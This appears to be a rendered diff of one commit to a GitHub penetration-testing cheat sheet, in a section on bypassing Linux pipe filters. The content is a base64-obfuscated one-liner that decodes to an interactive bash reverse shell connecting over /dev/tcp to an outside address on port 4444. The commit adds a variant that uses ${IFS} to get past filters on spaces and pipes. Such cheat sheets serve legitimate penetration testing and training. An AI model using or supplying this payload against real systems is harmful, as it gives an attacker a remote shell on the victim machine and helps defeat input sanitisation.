

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Adds example bypass payload for space and pipe filter

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -1846,6 +1846,8 @@ victim&email=attacker@example.com
 ```
 
 ### Linux Pipe Filter Bypass
-```
+```bash
 bash < <(base64 -d < <(echo YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjQ1LzQ0NDQgICAwPiYx))
-```
+# Example with space and pipe filter
+bash${IFS}<${IFS}<(base64${IFS}-d${IFS}<${IFS}<(echo${IFS}YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjQ1LzQ0NDQgICAwPiYx))
+```
````
